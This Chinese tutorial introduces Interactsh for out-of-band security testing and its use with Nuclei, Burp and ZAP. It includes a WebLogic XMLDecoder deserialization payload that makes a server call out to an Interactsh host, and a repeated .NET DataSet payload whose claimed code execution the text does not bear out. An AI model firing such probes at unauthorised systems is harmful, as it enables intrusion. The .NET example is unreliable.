

# 使用 Interact.sh 进行带外测试 (OAST)

Interactsh是一个开源工具，用于检测带外交互。它专门设计用于发现那些会导致系统与外部产生联系的漏洞。在红队演练中，interactsh也是一个非常有价值的工具，安全专业人员可以利用它模拟真实的网络攻击，以识别目标组织安全防御中的弱点。

## 带外应用安全测试（OAST）与Interactsh

interactsh是一个基于云的平台，简化了OAST测试流程。它自动化了测试过程，节省了时间和资源，并提供了一个集中化的平台来管理和报告OAST测试结果。这使得识别和修复漏洞变得更加容易，从而确保应用程序的安全性。许多攻击者和漏洞赏金猎人现在都转向使用OAST方法来检测互联网应用程序和API中未知的安全问题。为了加强我们的安全检测能力，我们发现这些结束整合到我们的框架中是更适合的，以便更好地洞察应用程序级别的弱点。

例如，使用Interactsh，测试人员可以执行一个OAST负载（payload），这个负载以HTTP请求的形式发送，用于测试应用程序中是否存在反序列化漏洞。这个请求可能看起来像：

```html
POST /api/deserialize HTTP/1.1
Host: example.com
Content-Type: application/json

{“$type”:”System.Data.DataSet,System.Data”,”Tables”:[{“$type”:”System.Data.DataTable,System.Data”,”Rows”:[{“$type”:”System.Data.DataRow,System.Data”,”ItemArray”:[“Interact.sh”]}]}]}
```

这个请求发送到应用程序后，如果应用程序存在反序列化漏洞，攻击者就可以在服务器上执行来自Interactsh的代码。

## Nuclei 和 Interactsh 集成自动OOB测试

NUclei v2.3.6现在支持使用interact.sh API来实现基于OOB的漏洞扫描，并内置了自动请求关联功能。你只需在请求中的任意位置写上"{{interactsh-url}}"，并添加一个`interact_protocol` 的匹配器。Nuclei会自动关联交互到模板和生成请求，从而实现无缝的OOB扫描。

以下模板使用Interactsh的OOB服务器来检测WebLogic的反序列化漏洞。

```html
POST /wls-wsat/RegistrationRequesterPortType HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8,
Content-Type: text/xml;charset=UTF-8
Content-Length: 873

<soapenv:Envelope xmlns:soapenv=”http://schemas.xmlsoap.org/soap/envelope/”>
<soapenv:Header>
<work:WorkContext xmlns:work=”http://bea.com/2004/06/soap/workarea/">
<java version=”1.8" class=”java.beans.XMLDecoder”>
<void id=”url” class=”java.net.URL”>
<string>http://{{interactsh-url}}</string>
</void>
<void idref=”url”>
<void id=”stream” method =”openStream”/>
</void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



## 另一个示例

测试人员可以发送一个包含OAST有效载荷的HTTP请求，来测试应用程序是否存在反序列化漏洞。这个请求可能看起来像这样：

```html
POST /api/deserialize HTTP/1.1
Host: example.com
Content-Type: application/json

{“$type”:”System.Data.DataSet,System.Data”,”Tables”:[{“$type”:”System.Data.DataTable,System.Data”,”Rows”:[{“$type”:”System.Data.DataRow,System.Data”,”ItemArray”:[“Interact.sh”]}]}]}
```

这个请求发送到应用程序后，如果应用程序存在反序列化漏洞，攻击者既可以在服务器上执行来自Interactsh的代码。

## Interactsh与流行扫描器的集成

- Burp Suite扩展——interactsh collaborator：这是一个Burp Suite的扩展，可以直接使用Interactsh。

- OWASP ZAP插件——OAST：OWASP ZAP通过OAST插件可以与Interactsh集成。利用ZAP的脚本功能，你可以创建强大的带外扫描规则，充分利用Interactsh的功能。
- Nulcei--OAST：Nuclei漏洞扫描器利用Interactsh自动生成有效载荷，检测基于带外的安全漏洞。

## 结论

带外应用程序安全测试（OAST）是全面应用程序安全策略中的一个关键组成部分。Interactsh简化了OAST测试过程，并未应用程序的安全态势提供了宝贵的洞见。重视应用城市徐安全的组织应该考虑使用Interactsh进行OAST测试。

